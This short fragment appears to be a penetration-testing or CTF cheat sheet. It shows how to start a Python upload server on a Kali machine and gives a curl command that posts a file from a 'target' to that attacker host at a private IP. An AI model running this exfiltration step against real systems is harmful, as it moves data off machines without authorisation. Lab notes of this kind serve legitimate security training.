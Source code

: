 Start the server on Kali
```bash
python -m uploadserver
```

Upload from target to Kali
```bash
curl -X POST http://192.168.100.200:8000/upload -F 'files=@150_lp'
```
